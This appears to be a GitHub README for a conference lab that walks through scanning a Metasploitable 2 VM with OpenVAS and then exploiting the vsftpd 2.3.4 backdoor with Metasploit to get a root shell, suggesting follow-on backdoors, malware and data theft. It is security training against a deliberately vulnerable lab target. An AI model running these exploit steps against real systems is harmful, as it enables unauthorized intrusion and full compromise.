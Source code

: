 # RSSC19-OpenVAS-Lab

## Prerequisites

In order to execute this lab, there are a few things you will need to get started.
1. Installation of Metasploitable 2 VM as an attack target
   * This can be downloaded here: https://sourceforge.net/projects/metasploitable/files/Metasploitable2/
   * This lab will not go into how to register the download into your hypervisor, but many tutorials are available online
2. Kali Linux installed to attack the target host
3. Both machines should be connected to the same network
   * **DO NOT** expose the Metasploitable VM to untrusted networks, only your attack host should be able to access the target
4. For this lab we're going to use the IP 192.168.100.10 for the Metasploit target and 192.168.100.11 for the Kali console. Replace these IPs in the instructions with your own if using different ones.

## Attack Execution

Here we will walk through the process of using OpenVAS to scan a host and determine its vulnerabilities.

### Installation of OpenVAS - **SKIP THIS SECTION IF YOU'RE AT THE RSSC19 CONFERENCE, IT HAS ALREADY BEEN DONE FOR YOU**
1. On your Kali installation, open a terminal
2. Install OpenVAS using apt.

```bash
apt install openvas -y
```

3. Once installed, run the setup utility. This allows OpenVAS to start downloading vulnerability information and perform required setup tasks.

```bash
openvas-setup
```

4. This process will take some time to complete. When it's finished, it will print information on how to connect to the service, including the default admin password, which is randomly generated.

![AdminCreds](/screenshots/RSSC19_admin_password.png)

### Login to OpenVAS and Execute Scan

Now we will use OpenVAS to perform a scan against our target host.

1. Launch Firefox (or your preferred web browser) and navigate to https://192.168.100.12:9392
   * If you are executing this on your own and not at RSSC19, the setup should automatically load your browser for you and point you to the service on your localhost, which is https://127.0.0.1:9392
2. Login with the username `admin` and your password.
   * If you are following this exercise at RSSC19, the admin password is `RSSC19`
   * If you are following this exercise at home, you will need to get your default admin password from the steps in the previous section.
3. Once logged in, click `Scans`, then `Tasks` in the fly-down menu

![ScansTasks](/screenshots/RSSC19_1.png)

4. Click the purple `Wizard` icon in the top-left corner

![ScanWizard](/screenshots/RSSC19_2.png)

5. Enter the IP address of the Metasploit VM
   * At RSSC19, the IP is `192.168.100.10`
6. Click `Start Scan`
7. This will take some time to complete. If you are at RSSC19, you can move on to the next section, as a scan has already been run previously and the results are already available

### Reviewing the Results and Finding Vulnerabilities to Exploit

Here we will look at the scan results to find vulnerabilities to exploit

1. Click on `Scans` then `Results`

![ScanResults](/screenshots/RSSC19_3.png)

2. Sort by Severity by clicking on the `Severity` header in the Vulnerability table
   * You may need to click this twice to have it sort in descending order
   
![SortSeverity](/screenshots/RSSC19_4.png)

3. Review some of the vulnerabilities on this page that are of `High` Severity. You can click on the name of the vulnerability to get more detail.
4. Find the vulnerability titled `vsftpd Compromised Source Packages Backdoor Vulnerability` and click on it for more information. This may be a few pages in, click the green arrow on the bottom right to advance the page until you find the vulnerability.
   * Note: There may be more than one of this vulnerability, select the one that shows a Location of `21/tcp`

![vsftpdVuln](/screenshots/RSSC19_5.png)

5. We can learn from this page that there is a backdoor vulnerabillity in this FTP service that can be exploited.

### Finding and Running the Exploit

1. Open a terminal and launch the metasplpoit console, which is used to find vulnerabilities and execute their exploits

```bash
msfconsole
```

2. Search for any exploits related to the `vsftpd` service we discovered vulnerabilities for in the previous section

```bash
search vsftpd
```

3. There is one exploit available, and it is for `Backdoor Command Execution`, which is the vulnerability we found in OpenVAS. Let's select the exploit

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
```

4. Review the options available for the exploit

```bash
show options
```

5. RPORT is already set to 21, which is correct based on the OpenVAS result showing the vulnerability on that port. We need to set the target IP though, which is the Metasploitable VM.

```bash
set RHOSTS 192.168.100.10
```

6. Now that all the required options are set, run the exploit

```bash
run
```

7. If successful, this should grant you a root shell to the target box. To confirm, run the following commands to verify hostname, IP, and logged in user of your remote shell

```bash
ip a
hostname
whoami
```
   * Notice the IP address 192.168.100.10 is listed, which belongs to our target host, and the hostname is metasploitable, as expected. The result of the `whoami` command should be `root`, indicating your root access.
   
8. From here you have full control of the target and you can perform any commands you wish, such as installing backdoors for access later, malware, obtaining sensitive information on the filesystem, etc.

# Conclusion

We hope this has been useful in seeing the process of scanning a target system for exploitable vulnerabilities, determining which are exploitable, finding the exploits, and executing them to gain access to a target host. It is a good idea to run vulnerability scanners like this in your own environment to determine where your weaknesses are so you can correct them before a malicious actor finds them instead.
